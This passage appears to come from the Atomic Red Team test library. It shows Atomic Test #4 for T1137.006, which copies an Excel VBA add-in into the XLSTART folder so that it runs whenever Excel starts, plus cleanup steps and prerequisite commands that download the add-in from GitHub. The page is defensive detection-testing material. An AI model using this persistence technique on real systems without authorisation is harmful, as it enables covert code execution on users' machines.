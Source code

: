```powershell
```




<br/>
<br/>

## Atomic Test #4 - Persistent Code Execution Via Excel VBA Add-in File (XLAM)
Creates an Excel VBA Add-in file (XLAM) which runs automatically when Excel is started
The sample XLAM provided launches the notepad as a proof-of-concept for persistent execution from Office.

**Supported Platforms:** Windows


**auto_generated_guid:** 082141ed-b048-4c86-99c7-2b8da5b5bf48






#### Attack Commands: Run with `powershell`! 


```powershell
Copy "PathToAtomicsFolder\T1137.006\bin\Addins\ExcelVBAaddin.xlam" "$env:APPDATA\Microsoft\Excel\XLSTART\notepad.xlam"        
Start-Process "Excel"
```

#### Cleanup Commands:
```powershell
Stop-Process -Name "notepad","Excel" -ErrorAction Ignore
Start-Sleep 3
Remove-Item "$env:APPDATA\Microsoft\Excel\XLSTART\notepad.xlam" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Excel must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "Excel.Application" | Out-Null
  Stop-Process -Name "Excel"
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Excel manually to meet this requirement"
```
##### Description: XLAM file must exist on disk at specified location
##### Check Prereq Commands:
```powershell
if (Test-Path "PathToAtomicsFolder\T1137.006\bin\Addins\ExcelVBAaddin.xlam") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\T1137.006\bin\Addins\" -Force | Out-Null
Invoke-Webrequest -Uri "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1137.006/bin/Addins/ExcelVBAaddin.xlam" -UseBasicParsing -OutFile "PathToAtomicsFolder\T1137.006\bin\Addins\ExcelVBAaddin.xlam"
```
